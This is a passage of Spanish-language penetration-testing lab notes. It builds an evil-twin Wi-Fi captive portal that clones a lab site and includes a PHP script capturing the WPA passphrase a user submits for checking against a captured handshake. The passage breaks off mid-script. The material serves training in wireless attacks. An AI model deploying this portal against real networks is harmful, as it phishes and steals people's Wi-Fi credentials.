 ```bash
						}
				?>
				</div>

				<div class="col-lg-4 col-lg-offset-4 himg ">
					<i class="fa fa-cog" aria-hidden="true"></i>
				</div>
			</div>
		</div>

	</body>
</html>
```

#### Copiamos assets y otros

```bash
sudo cp -r ./www.megacorpone.com/assets/ /var/www/html/portal/

sudo cp -r ./www.megacorpone.com/old-site/ /var/www/html/portal/
```

#### Script de verificación de inicio de sesión

```bash
<?php
# Path of the handshake PCAP
$handshake_path = '/home/kali/discovery-01.cap';
# ESSID
$essid = 'MegaCorp One Lab';
# Path where a successful passphrase will be written
# Apache2's user must have write permissions
# For anything under /tmp, it's actually under a subdirectory
#  in /tmp due to Systemd PrivateTmp feature:
#  /tmp/systemd-private-$(uuid)-${service_name}-${hash}/$success_path
# See https://www.freedesktop.org/software/systemd/man/systemd.exec.html
$success_path = '/tmp/passphrase.txt';
# Passphrase entered by the user
$passphrase = $_POST['passphrase'];

# Make sure passphrase exists and
# is within passphrase lenght limits (8-63 chars)
if (!isset($_POST['passphrase']) || strlen($passphrase) < 8 || strlen($passphrase) > 63) {
  header('Location: index.php?failure');
  die();
}

# Check if the correct passphrase has been found already ...
$correct_pass = file_get_contents($success_path);
if ($correct_pass !== FALSE) {

  # .. and if it matches the current one,
  # then redirect the client accordingly
  if ($correct_pass == $passphrase) {
    header('Location: index.php?success');
  } else {
    header('Location: index.php?failure');
  }
  die();
}

# Add passphrase to wordlist ...
$wordlist_path = tempnam('/tmp', 'wordlist');
$wordlist_file = fopen($wordlist_path, "w");
fwrite($wordlist_file, $passphrase);
```